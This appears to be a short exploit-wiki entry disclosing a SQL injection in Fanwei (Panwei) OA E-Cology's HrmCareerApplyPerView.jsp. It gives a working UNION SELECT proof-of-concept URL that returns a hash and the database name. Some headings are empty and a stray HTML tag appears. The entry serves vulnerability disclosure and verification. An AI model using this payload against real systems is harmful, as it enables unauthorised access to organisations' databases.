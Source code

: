 # Panwei OA E-Cology HrmCareerApplyPerView.jsp SQL injection vulnerability

## Vulnerability Description

The Panwei OA E-Cology HrmCareerApplyPerView.jsp file has SQL injection vulnerability, and the attacker can obtain sensitive files of the server database through the vulnerability.

## Vulnerability Impact

Fanwei OA E-Cology </span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1656734700582-b9fa4bec-ab37-4bbb-b1fb-4ccccda497df.png)

Verify POC

```php
/pweb/careerapply/HrmCareerApplyPerView.jsp?id=1 union select 1,2,sys.fn_sqlvarbasetostr(HashBytes('MD5','abc')),db_name(1),5,6,7
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1656734767484-f94594ff-00ff-444f-8668-b9108e63ed02.png)